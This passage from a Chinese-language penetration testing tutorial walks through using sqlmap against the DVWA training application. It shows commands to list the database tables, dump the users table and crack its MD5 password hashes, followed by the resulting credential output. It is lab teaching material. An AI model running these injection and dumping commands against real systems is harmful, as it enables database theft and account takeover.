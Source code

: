 
在上面的例子中，`--dbs`参数用于枚举所有可用的，能通过 SQL 注入访问的数据库。通过名称来判断，它表明列出的数据库直接对应 DVWA 的应用。我们之后可以直接对数据库执行操作。为了提取 DWVA 数据库的所有表的名称，我们可以使用`--tables`参数来让 sqlmap 提取表名称，之后使用`-D`参数指定需要提取的数据库（`dvwa`）。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --tables -D dvwa 
                            ** {CUT} ** 
Database: dvwa 
[2 tables] 
+-----------+ 
| guestbook | 
| users     | 
+-----------+ 
                            ** {TRUNCATED} ** 
```

这样做，我们可以看到 DVWA 数据库中有两个表。这些表包括`guestbook`和`users`。用户表通常值得提取，因为它通常包含用户名和相关的密码哈希。为了从某个指定表中提取信息，我们可以使用`--dump`参数，之后使用`-D`参数来指定数据库，`-T`参数来指定提取哪个表的内容。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dump -D dvwa -T users 
                            ** {CUT} ** 
do you want to crack them via a dictionary-based attack? [Y/n/q] Y 
[03:44:03] [INFO] using hash method 'md5_generic_passwd' 
what dictionary do you want to use?
[1] default dictionary file './txt/wordlist.zip' (press Enter) 
[2] custom dictionary file 
[3] file with list of dictionary files 
> 
[03:44:08] [INFO] using default dictionary 
do you want to use common password suffixes? (slow!) [y/N] N 
                                ** {CUT} ** 
Database: dvwa 
Table: users 
[5 entries] 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| user_id | user    | avatar                                                 | password                                    | last_name | first_name | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
| 1       | admin   | http://192.168.223.132/dvwa/hackable/users/admin. jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | admin     | admin      | 
| 2       | gordonb | http://192.168.223.132/dvwa/hackable/users/gordonb. jpg | e99a18c428cb38d5f260853678922e03 (abc123)   | Brown     | Gordon     | 
| 3       | 1337    | http://192.168.223.132/dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  | Me        | Hack       | 
| 4       | pablo   | http://192.168.223.132/dvwa/hackable/users/pablo. jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  | Picasso   | Pablo      | 
| 5       | smithy  | http://192.168.223.132/dvwa/hackable/users/smithy. jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | Smith     | Bob        | 
+---------+---------+-------------------------------------------------------+---------------------------------------------+-----------+-----------+ 
                                ** {TRUNCATED} **
```
